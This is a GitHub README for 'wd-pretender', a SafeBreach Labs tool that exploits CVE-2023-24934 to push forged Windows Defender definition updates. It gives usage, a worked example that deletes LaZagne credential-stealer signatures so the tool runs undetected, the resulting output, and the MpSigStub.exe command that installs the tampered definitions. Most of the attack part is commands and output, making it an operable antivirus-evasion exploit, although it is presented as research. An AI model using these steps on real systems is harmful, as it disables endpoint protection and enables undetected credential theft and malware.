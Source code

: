 # wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. The primary objective of wd-pretender is to demonstrate potential security vulnerabilities and raise awareness about the importance of robust endpoint security measures.

## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Installation 
Windows with Python 3.10+ with the libraries mentioned in the file `requirements.txt`


## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass}
    bypass              bypass windows defender threats

optional arguments:
  -h, --help            show this help message and exit
  -o O                  output folder for the exported vdm files
  -d D                  set explicit definition update path
```

### Bypass
```
usage: wd-pretender.py command [options] bypass [-h] [-match MATCH | -name NAME | -id ID]

optional arguments:
  -h, --help    show this help message and exit
  -match MATCH  delete all threats that his name containes <name>
  -name NAME    delete threat by name
  -id ID        delete threat by his id
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass -match lazagne
```

Output:

```
python .\wd-pretender.py -o C:\BypassDefs bypass -match lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{0E0FDC3E-A1A1-4500-9BEF-460F8E72E1C7}
[+] Initializing DefinitionUpdate
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm

[#] Delete threats from Anti-Spyware definitions
[#] Delete threats from Anti-Virus definitions
      Deleting -> b'\xd8!LaZagne'
      Deleting -> b'HackTool:Python/LaZagne'
      Deleting -> b'HackTool:Python/LaZagne.A!MTB'
      Deleting -> b'\xd8!LaZagne!ml'
      Deleting -> b'HackTool:Python/LaZagne.D!MTB'
      Deleting -> b'\xcc!Golazagne.A!MTB'
      Deleting -> b'HackTool:Python/LaZagne.B'
      Deleting -> b'\xd8!LaZagne!sms'
      Deleting -> b'\xcc!Lazagne.A!MTB'
      Deleting -> b'\xcc\xe1Lazagne'
[+] Exporting definitions into: C:\BypassDefs
[+] mpasdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
[+] mpavdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.

## License
wd-pretender is released under the BSD 3-Clause License. 
Feel free to modify and distribute this tool responsibly, while adhering to the license terms.